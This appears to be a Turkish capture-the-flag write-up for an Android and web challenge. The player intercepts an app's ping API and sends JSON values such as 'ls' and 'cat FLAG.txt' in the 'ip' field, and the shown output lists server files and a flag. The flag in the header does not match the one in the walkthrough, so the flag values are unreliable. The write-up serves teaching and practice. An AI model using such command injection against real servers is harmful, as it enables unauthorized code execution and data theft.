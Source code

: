 
# Pinpon

|    |  |
| ------------- |:-------------:|
| Zorluk        | Çerez(100 Puan)|
| Aşama         | Yarı Final    |
| Soru Türü     | Miscellaneous |
| Dosyalar      | raket.apk     |
| Yazar         | [Rednexie](https://github.com/Rednexie) |

### Sorunun alakalı olduğu alanlar
- Android Uygulama Güvenliği
- Web Uygulama Güvenliği 


## Soru Açıklaması
```
Pinpon topunu sunuculara at, uyanıklarsa sana geri göndereceklerdir.
```

### Sorunun alakalı olduğu alanlar
- Web Güvenliği
- Android 

## İpuçları
```
YOK
```

## Bayrak
```
BayrakBende{5unucu_ö1dühttp}
```





# WriteUp

## Ağ İzleme Kurulumunun Yapılması
Android uygulamamızı açtığımızda karşımızda verilen IP adresine ICMP ping isteği atmamıza yarayan bir sistem çıkacaktır. Bu sistem komutu Android cihazımızda yürüterek değil, bir API aracılığıyla çalışmaktadır.

Bu yüzden Android uygulamamızın tüm ağ trafiğini izlememiz gerekecektir. Bunun birkaç yolu bulunmakta:

- HTTP Toolkit'e Frida veya Android Studio aracılığıyla bir emülatör bağlamak
- HTTP Toolkit'e kendi fiziksel Android cihazımızı bağlamak
- Kendi cihazımızdaki tüm trafiği izleyecek kurulumu yapıp bir Android emülatörüyle uygulamayı çalıştırmak

Android Studio bir CTF yarışmacısının elinde olacağı için bu yollardan en kolayıdır. Cihazımızı ADB'ye bağlayıp HTTP Toolkit aracılığıyla trafiğini izlememiz mümkün.

### API'ı Keşfetmek
Cihazın ping komutunu bir API aracılığıyla yürüttüğünü anlamıştık. Trafiğimizi izlersek bunu sağlayan HTTP isteğini yakalayabiliriz.

Cihaz, komutu sunucuya JSON gövdesine sahip bir POST isteği ile gönderiyor. Dolayısıyla bu isteği kendimiz de herhangi bir yerden atabiliriz. Ayrıca isteği atarken giden komutu değiştirebiliriz:


```json
{
    "ip": "ping 0.0.0.0 -t 4" 
}
```

Normalde giden isteğin gövdesi aşağıdaki gibidir. Biz bunu istediğimiz komutları çalıştırma amacıyla kullanabiliriz. Örneğin, sunucudaki dizini listelemek için bir istek gönderelim:

```json
{
    "ip": "ls"
}
```



Cevap aşağıdaki gibi olacaktır:

```text
.dockerignore
.gitignore
node_modules
Dockerfile
bun.lockb
index.js
FLAG.txt
package.json
```

Komutumuzun başarıyla yürütüldüğünü ve sunucunun bize bir dizin listelemesi yaptığını görüyoruz. Dizindeki dosyaları incelediğimizde aralarında 'FLAG.txt' isimli dosya gözümüze çarpmış olmalı. İçeriğini okumak için sonraki komutumuzu çalıştırıyoruz:

```json
{
    "ip": "cat FLAG.txt"
}
```
Sunucu da cevap olarak bayrağımızı döndürecektir:
```text
BayrakBende{s1b3r1_4z4lt4l1m_4g4l4r}
```
